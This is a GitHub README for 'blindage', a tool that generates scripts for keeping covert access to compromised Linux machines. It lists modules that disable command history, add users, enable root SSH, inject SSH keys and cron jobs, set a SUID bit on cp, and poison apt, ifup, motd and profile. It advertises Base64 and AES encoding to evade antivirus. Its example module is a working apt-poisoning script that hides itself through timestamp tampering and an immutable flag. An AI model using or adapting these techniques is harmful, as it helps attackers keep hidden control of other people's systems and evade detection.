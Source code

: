 
# blindage
A very simple persistence script generator. Its main goal is to automate rudimentary ways to persist on a target machine with minimal dependencies and easy setup.

### Demo
Your machine:

![](docs/demo1.gif)

Target machine:

![](docs/demo2.gif)

### Features
* Minimal dependencies to run the payload
* Base64 and AES payload encoding for AV evasion
* Configuration caching for subsequent uses
* Easy to extend with your own modules

### Available modules
* **history disabler** (Disables command history logging)
* **sshd cloner** (Creates additional sshd process using separate port)
* **service creator** (Creates a systemd service that runs a command)
* **user creator** (Adds a user to the system)
* **root sshd enabler** (Enables ssh login for root)
* **authorized_keys injector** (Adds a key to authorized_keys)
* **crontab injector** (Adds a command to crontab)
* **suid maked** (Adds suid bit to cp binary)
* **apt poisoner** (Adds apt entry with command execution)
* **ifup poisoner** (Adds ifup entry with command execution)
* **motd poisoner** (Adds motd entry with command execution)
* **profile poisoner** (Creates profile.d script)
* **network unblocker** (Opens ports in ufw and iptables)

### How to create a module
Create a `.yml` file inside `modules` folder with following structure:

    name: "apt poisoner"
    description: "Adds apt entry with command execution"
    category: persistence
    need_root: true
    variables:
      - name: cmd
        description: "Command to execute"
    priority: 1000
    tip: "APT is poisoned with command '{{cmd}}'"
    script: |
      NOW=$(date +@%s)
      date -s "$(stat -c '@%Z' /etc/hostname)"
      echo 'APT::Update::Pre-Invoke {"{{cmd}}"};' | sudo tee /etc/apt/apt.conf.d/20packageupdate
      touch /etc/apt/apt.conf.d/20packageupdate
      chattr +i /etc/apt/apt.conf.d/20packageupdate
      date -s "$NOW"
      unset NOW

Variables description:
|Variable|Empty value|Description|
|--|--|--|
|name|""|Name of the module to display in configuration menu|
|description|""|Description of the module to display in configuration menu|
|category|can't be empty|Category name, used for grouping in configuration menu|
|need_root|can't be empty|Should be True for modules that require root, False otherwise. Used in simple configuration mode and for grouping in configuration menu|
|variables|[]|Variables that can be injected in the script. Use `{{variable}}` to refer to the variable in the script|
|priority|can't be empty|Used to set execution order inside the payload. Higher the number, later the execution|
|tip|""|Used to display the "tip" after payload generation, so user can save result of module execution for later reference|
|script|can't be empty|Here goes the module payload|

**Note:** all the fields are required, if you don't need it - provide an empty value. Also, avoid using whitespaces in the module filename as it's used to generate function name inside the payload.
